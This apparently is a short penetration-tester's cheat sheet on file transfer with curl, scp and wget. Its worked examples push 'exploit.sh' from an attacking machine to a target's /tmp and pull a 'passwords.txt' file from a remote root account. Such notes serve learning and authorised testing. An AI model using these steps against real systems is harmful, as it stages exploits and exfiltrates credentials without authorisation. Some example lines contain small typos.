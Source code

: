 # File Transfer Techniques

## Curl

```bash
curl http://<IP/<File> --output /<Dir>/<File>
curl http://10.10.10.10./notes.txt --output /tmp/notes.txt
```

## SCP

Transfer file from attacking machine to remote host.

```bash
scp <File> <User>@<IP>:/<path>/<File>
scp exploit.sh root@10.10.10.10:/tmp/exploit.sh

# With key file
scp <File> -i <id_rsa> <User>@<IP>:/<path>/<File>
scp exploit.sh -i /home/id_rsa root@10.10.10.10:/tmp/exploit.sh
```

Download from remote host to local system

```bash
scp <User>@<IP>:/<Path>/<File> /<LocalPath>
scp root@10.10.10.10:/tmp/passwords.txt /home/kali/passwords.txt

# With Key File
scp -i <id_rsa> <User>@<IP>:/<Path>/<File> /<LocalPath>
scp -i id_rsa root@10.10.10.10:/tmp/passwords.txt /home/kali/passwords.txt
```

## Wget

```bash
wget http://<IP>/<File>
wget http://10.10.10.10/notes.txt
```

